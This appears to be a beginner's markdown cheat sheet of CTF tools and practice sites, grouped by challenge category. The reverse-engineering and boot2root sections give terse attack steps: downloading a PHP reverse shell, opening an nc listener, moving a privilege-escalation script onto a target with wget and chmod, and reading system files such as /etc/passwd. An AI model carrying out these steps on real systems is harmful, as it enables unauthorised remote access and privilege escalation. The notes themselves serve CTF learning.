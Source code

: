 # CTF TOOLS GUIDE

beginner: [CTFtime.org](http://CTFtime.org), ctflearn, pwntilldawn

discord:hacker101 & htb

`git remote add origin <https://github.com/sovayle/`>

# Forensics

software: HxD, Autopsy, hexeditor(linux)

# Web Exploitation

gobuster

# Cryptography

websites: [hashes.com](http://hashes.com), crackstation, cyberchef
hashes.com hash identifier

python3 hash identifier
`wget https://gitlab.com/kalilinux/packages/hash-identifier/-/raw/kali/master/hash-id.py`

`python3 hash-id.py`

hash-identifier 7bf6d9bb82bed1302f331fc6b816aada

gpg --help
gpg --import tryhackme.key
gpg message.gpg
cat message


# Reverse Engineering

![RE example.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/720f4b35-149f-42ac-924a-4db489bc5b3a/RE_example.png)

![RE example2.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/56c5f5e9-f997-4663-9b5d-e0d5b96a9d3b/RE_example2.png)

![RE example3.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6392dd19-8341-4097-880a-f4a2a8d9c73c/RE_example3.png)

wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

sudo nc -lvnp 1234
upload reverse shell script
profit

wget hash identifier website

Remmina for RDP


# Binary Exploitation

# OSINT

# Steganography

# boot2root
exploitdb scripts
gtfobins

priviledge escalation
Linenum
**python3 -m http.server 8000**
**"wget"** on the target machine, and your local IP, you can grab the file from your local machine [2]. Then make the file executable using the command **"chmod +x FILENAME.sh"**.

/etc/passwd 
/etc/shells
/etc/crontab

# Programming (Development challenges)